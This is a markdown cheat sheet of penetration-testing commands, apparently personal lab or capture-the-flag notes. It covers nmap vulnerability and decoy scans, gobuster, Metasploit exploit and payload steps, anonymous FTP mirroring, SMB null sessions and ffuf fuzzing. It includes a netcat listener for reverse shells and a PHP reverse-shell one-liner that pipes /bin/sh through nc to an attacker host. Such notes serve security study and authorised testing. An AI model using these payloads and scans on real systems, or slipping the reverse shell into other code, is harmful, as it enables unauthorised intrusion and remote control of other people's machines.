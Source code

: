 # Useful Codes
---
## nMap
---
- Vulnerability Script Nmap SE
```bash
sudo nmap $IP -sV --script vuln
```
- Decoy IP Nmap
```bash
sudo nmap $IP -sS -Pn -n -D RND:5
```
- Update Script DB
```bash
sudo nmap --script-updatedb
```
- Find Scripts for nMap
```bash
find / -type f -name $INPUT* 2>/dev/null | grep scripts
```
- FTP Scan with Scripts
```bash
sudo nmap -sV -p21 -sC -A 10.129.14.136
```
- SMB Scan with Scripts
```bash
sudo nmap $IP -sV -sC -p139,445
```
---
## Gobuster
---
- Gobuster Dir

```bash
gobuster dir -u http://$IP --wordlist $Wordlist
```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---
## XML Prettyfy
---
```bash
xsltproc all.xml -o all.html (nmap xml to html)
```
---
## SSL Certificate
- Check Certificate Term Json
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq .
```
- Check Certificate Unique Subdomain
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
```
---
## Metasploit
- Run Metasploit CLI
```bash
msfconsole
```
- Search exploit
```bash
search <exploit>
```
- Show Exploit options
```bash
show options
```
or
```bash
options
```
- Set parameter for exploit
```bash
set <option> <Value>
```
- Run exploit
```bash
run
```
- Show Payloads
```bash
show payloads
```
- Set Payloads
```bash
set payload <no.>
```
- Show Target of exploit
```bash
show targets
```
- Set Targets
```bash
set target <index no.>
```
- [Meterpreter Commands](/Meterpreter_Commands.md)

- Show Sessions
```bash
sessions
```
- Interact with a Session
```bash
sessions -i [no.]
```

---
## FTP
- Download All Available Files
```bash
wget -m --no-passive ftp://anonymous:anonymous@$IP

```
- Recursive Listing
```bash
ls -R
```
---
## SMB (Samba)

- Get Smb config
```bash
cat /etc/samba/smb.conf | grep -v "#\|\;" 
```

- List Server's Shares with Null Session (-N) that is an anonymous access.
```bash
smbclient -N -L //$IP
```
## Network File System (NFS)
- Enumerate
```bash
sudo nmap 10.129.9.119 -p111,2049 -sV -sC
```
---

## Ffuf
```bash
ffuf -w ./vhosts -u http://192.168.10.10 -H "HOST: FUZZ.randomtarget.com" -fs 612
```

---

## Hash

- [Understanding Hashes](/Hash.md)


---
## Various
- Lista Folder
```bash
tree $PATH
```
- [Unzipping W/ Py and Perl](/Unzipping_with_Python_and_Perl.md)

- Check shell type
```bash
env
```